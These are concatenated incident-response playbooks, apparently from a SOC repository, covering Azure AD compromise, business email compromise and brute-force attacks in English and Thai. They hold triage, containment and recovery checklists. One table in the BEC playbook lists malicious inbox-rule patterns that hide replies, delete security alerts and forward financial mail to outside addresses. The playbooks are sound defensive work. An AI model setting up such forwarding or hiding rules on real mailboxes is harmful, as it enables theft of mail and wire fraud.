| Azure AD Risky Sign-in | [cloud_azure_risky_signin.yml](../../08_Detection_Engineering/sigma_rules/cloud_azure_risky_signin.yml) |
| Impossible Travel | [cloud_impossible_travel.yml](../../08_Detection_Engineering/sigma_rules/cloud_impossible_travel.yml) |
| Login from Unusual Location | [cloud_unusual_login.yml](../../08_Detection_Engineering/sigma_rules/cloud_unusual_login.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-05 บัญชีถูกบุกรุก](Account_Compromise.th.md)
- [PB-26 MFA Bypass](MFA_Bypass.th.md)

## Azure AD Investigation Queries

| Query Purpose | Log Source | Key Fields |
|:---|:---|:---|
| Risky sign-ins | Azure AD Sign-in | riskState, riskLevel |
| MFA bypass | Azure AD Sign-in | authenticationRequirement |
| Privilege changes | Azure AD Audit | targetResources |
| App consent grants | Azure AD Audit | operationType |
| Conditional Access | Sign-in logs | conditionalAccessStatus |

### Azure AD Containment Actions

| Action | Impact | Speed | Reversible |
|:---|:---|:---|:---|
| Disable user account | High | Immediate | ✅ |
| Revoke all sessions | Medium | Immediate | ✅ |
| Reset password + MFA | Medium | < 15 min | N/A |
| Block sign-in | High | Immediate | ✅ |
| Remove role assignments | High | < 30 min | ✅ |

### Conditional Access Quick Fix

| Policy | Setting | Priority |
|:---|:---|:---|
| Block legacy auth | All users | P1 |
| Require MFA | All admins | P1 |
| Named locations | Allowed countries only | P2 |

## อ้างอิง

- [MITRE ATT&CK T1098 — Account Manipulation](https://attack.mitre.org/techniques/T1098/)
- [Microsoft — Incident Response Playbooks](https://learn.microsoft.com/en-us/security/operations/incident-response-playbooks)


---

## File: 05_Incident_Response/Playbooks/BEC.en.md

# Playbook: Business Email Compromise (BEC)

**ID**: PB-17
**Severity**: High/Critical | **Category**: Email Security / Fraud
**MITRE ATT&CK**: [T1566](https://attack.mitre.org/techniques/T1566/) (Phishing), [T1114](https://attack.mitre.org/techniques/T1114/) (Email Collection), [T1534](https://attack.mitre.org/techniques/T1534/) (Internal Spearphishing)
**Trigger**: User report ("Suspicious invoice"), mail filter ("Forwarding rule created"), Finance team ("Unusual payment request")

### Payment Recall Flow (Urgent!)

```mermaid
graph LR
    Discover["💰 Wire Transfer Found"] --> Bank["🏦 Contact Bank"]
    Bank --> Freeze["❄️ Freeze Destination Account"]
    Freeze --> Police["👮 File Police Report"]
    Police --> Legal["⚖️ Legal + Insurance"]
    style Discover fill:#e74c3c,color:#fff
    style Bank fill:#f39c12,color:#fff
    style Freeze fill:#3498db,color:#fff
    style Legal fill:#8e44ad,color:#fff
```

### BEC Detection Sequence

```mermaid
sequenceDiagram
    participant Attacker
    participant Victim
    participant SOC
    participant Finance
    Attacker->>Victim: 📧 Spoofed email (CEO/Vendor)
    Victim->>Finance: Forward wire transfer request
    Finance->>SOC: 🚨 Unusual amount
    SOC->>SOC: Check headers + sign-in logs
    SOC->>Finance: ❌ Stop the transfer!
    SOC->>Victim: Alert + reset account
```

> ⚠️ **CRITICAL**: BEC is the #1 cybercrime by financial losses (FBI IC3). Time is critical — stop wire transfers ASAP.

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 BEC Indicator"] --> Type{"📧 BEC Type?"}
    Type -->|Spoofed email from exec| Spoof["🎭 CEO Fraud / Impersonation"]
    Type -->|Account actually compromised| Takeover["🔓 Account Takeover"]
    Type -->|Vendor email compromise| Vendor["🏢 Vendor Impersonation"]
    Spoof --> Finance{"💰 Payment Requested?"}
    Takeover --> Rules{"📬 Mail Rules Created?"}
    Vendor --> Invoice{"🧾 Invoice Redirected?"}
    Finance -->|Yes, Urgent Wire| StopPay["🚨 STOP PAYMENT NOW"]
    Finance -->|No| Educate["✅ Educate User"]
    Rules -->|Forwarding / RSS Hide| Compromised["🔴 Confirmed Compromise"]
    Invoice -->|Yes, New Bank Details| StopPay
    Compromised --> Reset["🔄 Reset + Revoke"]
    StopPay --> Reset
```

---

## 1. Analysis

### 1.1 BEC Type Classification

| Type | Description | Indicators |
|:---|:---|:---|
| **CEO Fraud** | Impersonating executive to request wire | Spoofed "From", urgency, new bank account |
| **Account Takeover** | Attacker controls real mailbox | Foreign login, forwarding rules, sent items |
| **Vendor Impersonation** | Fake vendor with modified invoice | Similar domain (typosquat), new bank details |
| **Payroll Diversion** | Request to change direct deposit | HR-targeted email, new account info |
| **Gift Card Scam** | Request to purchase gift cards | Executive name, urgency, unusual request |

### 1.2 Email Header Analysis

| Check | What to Look For | Done |
|:---|:---|:---:|
| `From` vs `Return-Path` | Mismatch = spoofing | ☐ |
| `Reply-To` | Different domain than sender | ☐ |
| SPF result | `fail` or `softfail` | ☐ |
| DKIM result | `fail` or missing | ☐ |
| DMARC result | `fail` or `none` policy | ☐ |
| Domain age (if external) | Newly registered lookalike? | ☐ |
| X-Originating-IP | Suspicious location? | ☐ |

### 1.3 Account Takeover Investigation

| Check | How | Done |
|:---|:---|:---:|
| Login from foreign/unusual IP? | Azure AD / O365 sign-in logs | ☐ |
| MFA bypassed? (legacy auth, app passwords) | Conditional Access logs | ☐ |
| Inbox rules created? (forwarding, RSS, delete) | `Get-InboxRule` / Admin portal | ☐ |
| Emails sent from the account? | Sent Items, message trace | ☐ |
| OAuth apps consented? | Enterprise applications audit | ☐ |
| Mail flow rules (transport) modified? | Exchange admin | ☐ |

### 1.4 Common Malicious Inbox Rule Patterns

| Rule Name | Action | Purpose |
|:---|:---|:---|
| `.` or `..` | Move to RSS Feeds / Deleted | Hide replies from victim |
| `Invoice` / `Payment` | Forward to external + delete | Intercept financial emails |
| `Security` / `Alert` | Delete | Prevent victim seeing password alerts |
| Auto-forward all | Forward to external address | Ongoing data exfiltration |

---

## 2. Containment

### 2.1 If Payment Was Made (URGENT)

| # | Action | Timeline | Done |
|:---:|:---|:---|:---:|
| 1 | **Contact bank** to freeze/recall wire transfer | Within 24 hours | ☐ |
| 2 | Contact receiving bank (if known) | Same day | ☐ |
| 3 | File report with law enforcement (FBI IC3 / local) | Within 48 hours | ☐ |
| 4 | Notify CFO / Finance leadership | Immediately | ☐ |
| 5 | Preserve all email evidence | Now | ☐ |

### 2.2 Account Remediation

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Reset password** of compromised account | AD / IdP | ☐ |
| 2 | **Revoke all OAuth tokens** and refresh tokens | Azure AD / O365 | ☐ |
| 3 | **Remove all inbox rules** (especially forwarding/RSS) | Exchange Admin | ☐ |
| 4 | **Revoke MFA and re-register** | MFA portal | ☐ |
| 5 | **Block legacy authentication** | Conditional Access | ☐ |
| 6 | **Check and remove** OAuth app consents | Enterprise Apps | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Search ALL mailboxes for same phishing message | ☐ |
| 2 | Delete phishing emails from all affected mailboxes | ☐ |
| 3 | Block sender domain/IP at email gateway | ☐ |
| 4 | Block lookalike domains at DNS/proxy | ☐ |
| 5 | Check if compromised account sent phishing to internal/external | ☐ |
| 6 | Notify external recipients if phishing was sent from compromised account | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Re-enable account with new credentials and MFA | ☐ |
| 2 | Implement payment verification process (dual approval, callback) | ☐ |
| 3 | Enable DMARC enforcement on company domain | ☐ |
| 4 | Deploy anti-phishing policy with impersonation protection | ☐ |
| 5 | Conduct BEC awareness training for Finance / HR | ☐ |
| 6 | Monitor account for 30 days | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Attacker email address | | Email headers |
| Reply-To domain | | Email headers |
| Attacker IP (login) | | Sign-in logs |
| Inbox rule details | | Exchange audit |
| Forwarding destination | | Inbox rules |
| Spoofed domain | | Email headers |
| Bank account (fraudulent) | | Invoice / email |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Wire transfer executed | CFO + Legal + Bank + Law Enforcement |
| Executive account compromised | CISO immediately |
| Multiple accounts compromised | Major Incident |
| Vendor email chain compromised | Legal + Vendor relationship |
| PII exposed from mailbox | Legal + DPO (PDPA 72h) |
| Internal phishing sent from compromised account | [PB-01 Phishing](Phishing.en.md) |

---

### BEC Kill Chain

```mermaid
graph LR
    Recon["🔍 Recon"] --> Phish["🎣 Phishing"]
    Phish --> Access["🔓 Mailbox Access"]
    Access --> Rules["📋 Inbox Rules"]
    Rules --> Imperson["🎭 Impersonate"]
    Imperson --> Wire["💸 Wire Transfer"]
    style Recon fill:#3498db,color:#fff
    style Access fill:#f39c12,color:#fff
    style Wire fill:#e74c3c,color:#fff
```

### Payment Verification Process

```mermaid
sequenceDiagram
    participant Requester
    participant Finance
    participant Manager
    participant Bank
    Requester->>Finance: 💸 Wire transfer request
    Finance->>Manager: ☎️ Voice verification call
    Manager-->>Finance: ✅ Confirmed
    Finance->>Bank: Process transfer
    Note over Finance: ❌ Never verify via same email!
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Suspicious Inbox Rule Created | [cloud_email_inbox_rule.yml](../../08_Detection_Engineering/sigma_rules/cloud_email_inbox_rule.yml) |
| Login from Unusual Location | [cloud_unusual_login.yml](../../08_Detection_Engineering/sigma_rules/cloud_unusual_login.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-01 Phishing](Phishing.en.md)
- [PB-05 Account Compromise](Account_Compromise.en.md)
- [PB-06 Impossible Travel](Impossible_Travel.en.md)

## References

- [MITRE ATT&CK T1566 — Phishing](https://attack.mitre.org/techniques/T1566/)
- [FBI IC3 — BEC Scams](https://www.fbi.gov/scams-and-safety/common-scams-and-crimes/business-email-compromise)
- [Microsoft — BEC Investigation](https://learn.microsoft.com/en-us/security/operations/incident-response-playbook-phishing)


---

## File: 05_Incident_Response/Playbooks/BEC.th.md

# Playbook: Business Email Compromise (BEC)

**ID**: PB-17
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: การฉ้อโกงทางอีเมล
**MITRE ATT&CK**: [T1566](https://attack.mitre.org/techniques/T1566/) (Phishing), [T1114](https://attack.mitre.org/techniques/T1114/) (Email Collection)
**ทริกเกอร์**: ผู้ใช้รายงาน (ใบแจ้งหนี้น่าสงสัย), Mail filter (สร้าง forwarding rule), Finance team alert


## หลังเหตุการณ์ (Post-Incident)

- [ ] อัพเดท email gateway rules ตาม pattern ที่พบ
- [ ] ทบทวน payment approval workflow (dual-approval)
- [ ] จัด awareness training เรื่อง BEC ให้ finance team
- [ ] ใช้ email authentication (SPF/DKIM/DMARC strict)
- [ ] ตรวจสอบ vendor email compromise indicators
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังขั้นตอนเรียกคืนเงิน (Urgent!)

```mermaid
graph LR
    Discover["💰 พบว่าโอนเงิน"] --> Bank["🏦 ติดต่อธนาคาร"]
    Bank --> Freeze["❄️ Freeze บัญชีปลายทาง"]
    Freeze --> Police["👮 แจ้งความ"]
    Police --> Legal["⚖️ Legal + Insurance"]
    style Discover fill:#e74c3c,color:#fff
    style Bank fill:#f39c12,color:#fff
    style Freeze fill:#3498db,color:#fff
    style Legal fill:#8e44ad,color:#fff
```

### ผังตรวจจับ BEC

```mermaid
sequenceDiagram
    participant Attacker
    participant Victim as เหยื่อ
    participant SOC
    participant Finance
    Attacker->>Victim: 📧 อีเมลหลอก (CEO/Vendor)
    Victim->>Finance: ส่งต่อคำขอโอนเงิน
    Finance->>SOC: 🚨 ยอดเงินผิดปกติ
    SOC->>SOC: ตรวจ headers + sign-in logs
    SOC->>Finance: ❌ หยุดการโอน!
    SOC->>Victim: แจ้งเตือน + รีเซ็ตบัญชี
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 BEC Alert"] --> Payment{"💰 เงินถูกโอนแล้ว?"}
    Payment -->|ใช่| Bank["🏦 ติดต่อธนาคารทันที!"]
    Payment -->|ไม่| Assess["📊 ประเมินบัญชี"]
    Bank --> Freeze["🔒 Freeze บัญชีปลายทาง"]
    Assess --> Compromised{"👤 อีเมลถูกบุกรุก?"}
    Compromised -->|ใช่| Reset["🔐 รีเซ็ต + ลบ Rules"]
    Compromised -->|ไม่ (spoofed)| Block["🔒 บล็อกผู้ส่ง"]
    Freeze --> Investigate["🔍 สอบสวนขอบเขต"]
```

---

## 1. การวิเคราะห์

### 1.1 ประเภท BEC

| ประเภท | ลักษณะ | เป้าหมาย | ความรุนแรง |
|:---|:---|:---|:---|
| **CEO Fraud** | ปลอม CEO/CFO สั่งโอนเงินด่วน | Finance | 🔴 วิกฤต |
| **Invoice Fraud** | เปลี่ยนบัญชีธนาคารในใบแจ้งหนี้ | AP team | 🔴 วิกฤต |
| **Lawyer Impersonation** | ปลอมทนายสั่งจ่ายด่วน (confidential) | Finance | 🔴 วิกฤต |
| **Payroll Diversion** | เปลี่ยนบัญชีเงินเดือนพนักงาน | HR/Payroll | 🟠 สูง |
| **Data Theft** | ขอ W-2/ข้อมูลพนักงาน/ลูกค้า | HR / Admin | 🟠 สูง |
| **Vendor Email Compromise** | Vendor ถูกบุกรุกจริง → อีเมลจาก vendor ของจริง | AP team | 🔴 วิกฤต |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| วิเคราะห์ email headers (SPF/DKIM/DMARC) | Mail headers | ☐ |
| Display name vs actual email (ตรงกัน?) | Directory lookup | ☐ |
| Reply-to address ต่างจาก From? | Mail headers | ☐ |
| มี inbox rules / forwarding ถูกสร้าง? | Exchange admin (Get-InboxRule) | ☐ |
| เงินถูกโอนแล้วหรือไม่? + จำนวนเท่าไร? | Finance team | ☐ |
| มีผู้ใช้อื่นได้รับอีเมลเดียวกัน? | Mail log search (message trace) | ☐ |
| Compromised account or external spoof? | Sign-in logs + MFA | ☐ |
| มี OAuth apps ถูก consent? | Enterprise Apps | ☐ |

### 1.3 กิจกรรมใน Compromised Mailbox

| กิจกรรม | ตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| Inbox rules → auto-delete/forward/move | Get-InboxRule | ☐ |
| Delegates / folder permissions | Get-MailboxPermission | ☐ |
| Sent Items — ส่งอีเมลหลอกไปที่ใครบ้าง | Sent items / Message trace | ☐ |
| OAuth apps with Mail.Read/Mail.Send | Enterprise Apps | ☐ |

---

## 2. การควบคุม

### 2.1 หากเงินถูกโอนแล้ว (ทำทันที!)

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **ติดต่อธนาคาร** — recall / freeze transfer | ☐ |
| 2 | **แจ้งความ** ตำรวจ / anti-fraud unit | ☐ |
| 3 | **บันทึก** transaction details ทั้งหมด | ☐ |

### 2.2 Contain Compromised Account

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **รีเซ็ตรหัสผ่าน** (out-of-band channel) | ☐ |
| 2 | **เพิกถอน sessions** ทั้งหมด | ☐ |
| 3 | **ลบ inbox rules** ที่อันตราย | ☐ |
| 4 | **ลบ delegates / permissions** ที่ผิดปกติ | ☐ |
| 5 | **ลบอีเมลหลอก** จากทุก mailbox (Search-Mailbox) | ☐ |
| 6 | **ลบ OAuth apps** ที่ไม่ได้รับอนุมัติ | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลงทะเบียน MFA ใหม่ (FIDO2/passkeys) | ☐ |
| 2 | ลบ forwarding rules ทั้งหมดจากบัญชี | ☐ |
| 3 | ตรวจว่า attacker ส่งอีเมลหลอกไปหาใครอีก → แจ้งเตือน | ☐ |
| 4 | ลบ app registrations ที่ผู้โจมตีสร้าง | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | บังคับ **DMARC policy** (`p=reject`) | ☐ |
| 2 | กำหนดขั้นตอนยืนยันการโอนเงิน (**dual approval**, callback) | ☐ |
| 3 | จำกัด **admin consent** สำหรับ OAuth apps | ☐ |
| 4 | **Security awareness training** — BEC scenarios | ☐ |
| 5 | ติดตาม Dark Web สำหรับ compromised credentials | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| เงินถูกโอนแล้ว | Legal + Finance + ธนาคาร **ทันที** |
| CEO/CFO account ถูกบุกรุก | CISO ทันที |
| ข้อมูลพนักงาน/ลูกค้าถูกส่งออก | DPO (PDPA 72 ชม.) |
| Vendor email compromise (supply chain) | SOC Lead + Procurement |
| หลายบัญชีถูกบุกรุก | Major Incident |

---

### ผัง BEC Kill Chain

```mermaid
graph LR
    Recon["🔍 Recon"] --> Phish["🎣 Phishing"]
    Phish --> Access["🔓 Mailbox Access"]
    Access --> Rules["📋 Inbox Rules"]
    Rules --> Imperson["🎭 Impersonate"]
    Imperson --> Wire["💸 Wire Transfer"]
    style Recon fill:#3498db,color:#fff
    style Access fill:#f39c12,color:#fff
    style Wire fill:#e74c3c,color:#fff
```

### ผัง Payment Verification Process

```mermaid
sequenceDiagram
    participant Requester
    participant Finance
    participant Manager
    participant Bank
    Requester->>Finance: 💸 ขอโอนเงิน
    Finance->>Manager: ☎️ โทรยืนยันเสียง
    Manager-->>Finance: ✅ ยืนยัน
    Finance->>Bank: ดำเนินการโอน
    Note over Finance: ❌ ห้ามยืนยันผ่าน email เดิม!
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Suspicious Inbox Rule Created | [cloud_email_inbox_rule.yml](../../08_Detection_Engineering/sigma_rules/cloud_email_inbox_rule.yml) |
| Login from Unusual Location | [cloud_unusual_login.yml](../../08_Detection_Engineering/sigma_rules/cloud_unusual_login.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-01 ฟิชชิง](Phishing.th.md)
- [PB-05 บัญชีถูกบุกรุก](Account_Compromise.th.md)

## BEC Attack Pattern Recognition

| Pattern | Red Flags | Urgency Claim |
|:---|:---|:---|
| CEO fraud | Impersonates executive | "Urgent wire transfer" |
| Invoice fraud | Modified payment details | "Updated bank info" |
| Attorney impersonation | Legal urgency | "Confidential matter" |
| Data theft | HR/payroll request | "Need all W-2s" |
| Account compromise | Real account, fake request | Varies |

### Financial Impact Assessment

| Check | Action | Owner |
|:---|:---|:---|
| Wire initiated? | Contact bank immediately | Finance |
| Amount transferred? | Document for reporting | Finance |
| Multiple victims? | Company-wide alert | SOC |
| Law enforcement? | FBI IC3 report | Legal |

### BEC Prevention Checklist
- [ ] DMARC/DKIM/SPF configured
- [ ] External email banner enabled
- [ ] Wire transfer requires verbal confirmation
- [ ] Domain lookalike monitoring active

### Wire Recall Process

| Timeline | Success Rate | Action |
|:---|:---|:---|
| < 24 hrs | 50-70% | Contact bank urgently |
| 24-48 hrs | 20-40% | Bank + law enforcement |
| > 48 hrs | < 10% | Law enforcement only |

## อ้างอิง

- [FBI — BEC Scams](https://www.ic3.gov/Media/Y2022/PSA220504)
- [Microsoft — Investigate and respond to BEC](https://learn.microsoft.com/en-us/security/operations/incident-response-playbook-phishing)


---

## File: 05_Incident_Response/Playbooks/Brute_Force.en.md

# Playbook: Brute Force / Password Spray

**ID**: PB-04
**Severity**: Low/Medium/High | **Category**: Identity & Access
**MITRE ATT&CK**: [T1110](https://attack.mitre.org/techniques/T1110/) (Brute Force), [T1110.001](https://attack.mitre.org/techniques/T1110/001/) (Password Guessing), [T1110.003](https://attack.mitre.org/techniques/T1110/003/) (Password Spraying)
**Trigger**: SIEM alert ("Multiple failed logins"), IdP risk detection, Firewall/WAF logs

### Attack Patterns

```mermaid
graph TD
    Attacker["🔨 Attacker"] --> Type{"📋 Type?"}
    Type -->|Brute Force| BF["🔑 Try all passwords"]
    Type -->|Password Spray| PS["🌊 1 password × many accounts"]
    Type -->|Credential Stuffing| CS["📦 Use leaked creds"]
    BF --> Target["🎯 Single account"]
    PS --> Target2["🎯 Multiple accounts"]
    CS --> Target2
    style Attacker fill:#e74c3c,color:#fff
    style BF fill:#f39c12,color:#fff
    style PS fill:#e67e22,color:#fff
    style CS fill:#8e44ad,color:#fff
```

### Smart Lockout Flow

```mermaid
sequenceDiagram
    participant Attacker
    participant IdP
    participant SOC
    participant User as Legitimate User
    Attacker->>IdP: ❌ Login fail ×5
    IdP->>IdP: 🔒 Smart lockout (attacker only)
    User->>IdP: ✅ Login success (not locked)
    IdP->>SOC: 🚨 Alert: failed attempts
    SOC->>SOC: Check IP + success/fail ratio
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Failed Login Spike"] --> Type{"🔍 Attack Type?"}
    Type -->|Many fails → 1 account| Brute["🔨 Brute Force"]
    Type -->|1 password → Many accounts| Spray["🌧️ Password Spray"]
    Type -->|Credential list tested| Stuffing["📋 Credential Stuffing"]
    Brute --> Success{"✅ Any Success After Fails?"}
    Spray --> Success
    Stuffing --> Success
    Success -->|Yes, Login Succeeded| Compromised["🔴 Account Compromised!"]
    Success -->|No, All Failed| Attempt["🟡 Attack Attempt"]
    Compromised --> Reset["🔄 Reset + Investigate"]
    Attempt --> Block["🚫 Block Source + Monitor"]
```

---

## 1. Analysis

### 1.1 Attack Type Identification

| Type | Pattern | Detection |
|:---|:---|:---|
| **Brute Force** | 100+ attempts against ONE account in minutes | SIEM: high fail count per user |
| **Password Spray** | 1-2 attempts per account across MANY accounts | SIEM: same source, many targets |
| **Credential Stuffing** | Leaked credential pairs tested | Multiple users, different passwords |
| **Slow & Low** | Spread attempts over hours/days to avoid lockout | UEBA baseline deviation |
| **Distributed** | Same attack from many IPs (botnet) | Correlation: same target, many sources |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Source IP(s) — internal or external? | SIEM / Firewall | ☐ |
| IP reputation | AbuseIPDB, VirusTotal | ☐ |
| Target account(s) — VIP, admin, service? | AD / IdP | ☐ |
| Volume — how many attempts? | SIEM query | ☐ |
| Any SUCCESSFUL login after failures? | **CRITICAL** — Event ID 4624 after 4625s | ☐ |
| Protocol used (RDP, SSH, OWA, VPN, API) | Authentication logs | ☐ |
| Account lockout triggered? | AD / IdP | ☐ |
| Is the target exposed externally? | Firewall rules, Shodan | ☐ |

### 1.3 Severity Assessment

| Scenario | Severity | Action |
|:---|:---|:---|
| External IP, all failures, non-admin accounts | **Low** | Block IP, monitor |
| External IP, all failures, admin/VIP accounts | **Medium** | Block IP, alert account owner |
| Successful login after failed attempts | **High** | Treat as [PB-05 Account Compromise](Account_Compromise.en.md) |
| Password spray hitting many accounts | **High** | Block IP, org-wide password assessment |
| Internal source IP | **High** | Compromised host investigation |

---

## 2. Containment

### 2.1 Attack Attempt (No Success)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Block source IP(s)** at firewall/WAF | Firewall | ☐ |
| 2 | **GeoIP block** if source is from non-business country | Firewall / IdP | ☐ |
| 3 | **Lock accounts** only if lockout threshold wasn't auto-triggered | AD | ☐ |
| 4 | **Alert account owners** (especially VIP/admins) | Email / Chat | ☐ |

### 2.2 Successful Login Detected (CRITICAL)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Immediately reset password** of compromised account | AD / IdP | ☐ |
| 2 | **Terminate all sessions** | IdP | ☐ |
| 3 | **Enforce MFA** before re-enabling | IdP | ☐ |
| 4 | **Block source IP** | Firewall | ☐ |
| 5 | **Audit account activity** from successful login onward | SIEM | ☐ |
| 6 | Escalate to [PB-05 Account Compromise](Account_Compromise.en.md) | SOC | ☐ |

### 2.3 If Internal Source

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Isolate source host — likely compromised | ☐ |
| 2 | Investigate what's running on source host | ☐ |
| 3 | Check for malware / attacker tooling | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Remove attacker IP from any Allow lists | ☐ |
| 2 | If internal source: clean/re-image compromised host | ☐ |
| 3 | Check if any other accounts were compromised | ☐ |
| 4 | Verify all targeted accounts have strong, unique passwords | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Unlock legitimately locked accounts after verification | ☐ |
| 2 | Enforce MFA on all targeted accounts | ☐ |
| 3 | Implement smart lockout (Azure AD) or progressive delays | ☐ |
| 4 | Review and reduce externally exposed auth endpoints | ☐ |
| 5 | Deploy password banned list (common passwords) | ☐ |
| 6 | Consider passwordless authentication for high-risk accounts | ☐ |
| 7 | Monitor targeted accounts for 30 days | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Attacker IP(s) | | Firewall / SIEM |
| Targeted account(s) | | Auth logs |
| Attempted passwords (if visible) | | Auth logs |
| Attack duration | | SIEM |
| Successful login timestamp | | Auth logs |
| Protocol targeted | | Auth logs |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Successful login after brute force | [PB-05 Account Compromise](Account_Compromise.en.md) |
| Admin / service account targeted | SOC Lead + Identity team |
| Password spray > 100 accounts | SOC Lead |
| Internal source IP | Tier 2 + Endpoint team |
| Distributed attack (botnet) | SOC Lead + Network team |
| Externally exposed RDP targeted | Network team — disable external RDP |

---

### Password Policy Hardening

```mermaid
graph TD
    Policy["🔐 Password Policy"] --> Length["📏 Min 14 chars"]
    Policy --> Complex["🔤 Complexity required"]
    Policy --> History["📋 Remember 24"]
    Policy --> Lockout["🔒 Lockout 10 fails"]
    Lockout --> Duration["⏱️ 30 min lockout"]
    Length --> MFA["📱 MFA required"]
    Complex --> MFA
    style MFA fill:#27ae60,color:#fff
    style Lockout fill:#e74c3c,color:#fff
```

### Credential Source Tracking

```mermaid
graph LR
    Source{"🔑 Source?"} --> Dark["🌑 Dark Web dump"]
    Source --> Phish["🎣 Phishing"]
    Source --> Reuse["♻️ Password reuse"]
    Source --> Keylog["⌨️ Keylogger"]
    Dark --> Check["✅ Check HaveIBeenPwned"]
    Phish --> Check
    Reuse --> Check
    Keylog --> EDR["🛡️ EDR scan"]
    style Dark fill:#2c3e50,color:#fff
    style Phish fill:#e74c3c,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Multiple Failed Login Attempts | [win_multiple_failed_logins.yml](../../08_Detection_Engineering/sigma_rules/win_multiple_failed_logins.yml) |
| Login from Unusual Location | [cloud_unusual_login.yml](../../08_Detection_Engineering/sigma_rules/cloud_unusual_login.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-05 Account Compromise](Account_Compromise.en.md)
- [PB-06 Impossible Travel](Impossible_Travel.en.md)
- [Shift Handover Log](../../11_Reporting_Templates/shift_handover.en.md)

## References

- [MITRE ATT&CK T1110 — Brute Force](https://attack.mitre.org/techniques/T1110/)
- [OWASP Brute Force Prevention](https://owasp.org/www-community/controls/Blocking_Brute_Force_Attacks)
- [Microsoft Smart Lockout](https://learn.microsoft.com/en-us/entra/identity/authentication/howto-password-smart-lockout)


---

## File: 05_Incident_Response/Playbooks/Brute_Force.th.md

# Playbook: Brute Force / Password Spray

**ID**: PB-04
**ระดับความรุนแรง**: ต่ำ/ปานกลาง/สูง | **หมวดหมู่**: Identity & Access
**MITRE ATT&CK**: [T1110](https://attack.mitre.org/techniques/T1110/) (Brute Force)
**ทริกเกอร์**: SIEM alert (Event 4625 spike), IdP lockout, VPN failed logins, SSH fail2ban


## หลังเหตุการณ์ (Post-Incident)

- [ ] บังคับ MFA ทุกบัญชีที่ถูกโจมตี
- [ ] ทบทวน account lockout policies
- [ ] ใช้ Smart Lockout / IP-based throttling
- [ ] พิจารณาใช้ Passwordless authentication
- [ ] สร้าง detection rule สำหรับ pattern ที่พบ
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังรูปแบบการโจมตี

```mermaid
graph TD
    Attacker["🔨 ผู้โจมตี"] --> Type{"📋 ประเภท?"}
    Type -->|Brute Force| BF["🔑 ลองทุก password"]
    Type -->|Password Spray| PS["🌊 1 password หลาย accounts"]
    Type -->|Credential Stuffing| CS["📦 ใช้ leaked creds"]
    BF --> Target["🎯 บัญชีเดียว"]
    PS --> Target2["🎯 หลายบัญชี"]
    CS --> Target2
    style Attacker fill:#e74c3c,color:#fff
    style BF fill:#f39c12,color:#fff
    style PS fill:#e67e22,color:#fff
    style CS fill:#8e44ad,color:#fff
```

### ผัง Smart Lockout

```mermaid
sequenceDiagram
    participant Attacker
    participant IdP
    participant SOC
    participant User as ผู้ใช้จริง
    Attacker->>IdP: ❌ Login fail x5
    IdP->>IdP: 🔒 Smart lockout (ผู้โจมตีเท่านั้น)
    User->>IdP: ✅ Login สำเร็จ (ไม่ถูกล็อก)
    IdP->>SOC: 🚨 Alert: failed attempts
    SOC->>SOC: ตรวจ IP + success/fail ratio
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Login ล้มเหลวหลายครั้ง"] --> Type{"⚙️ ประเภท?"}
    Type -->|IP เดียว → บัญชีเดียว| BF["🔑 Brute Force"]
    Type -->|IP เดียว → หลายบัญชี| Spray["🌊 Password Spray"]
    Type -->|หลาย IP → บัญชีเดียว| Dist["📡 Distributed BF"]
    BF --> Success{"✅ มี Login สำเร็จ?"}
    Spray --> Success
    Dist --> Success
    Success -->|ใช่| Compromised["🔴 บัญชีถูกบุกรุก"]
    Success -->|ไม่| Block["🟠 บล็อก + ติดตาม"]
    Compromised --> Reset["🔐 รีเซ็ต + เพิกถอน"]
```

---

## 1. การวิเคราะห์

### 1.1 ประเภทการโจมตี

| ประเภท | ลักษณะ | ความรุนแรง |
|:---|:---|:---|
| **Brute Force** | เดารหัสผ่านหลายรอบต่อบัญชีเดียว | 🟡 ปานกลาง |
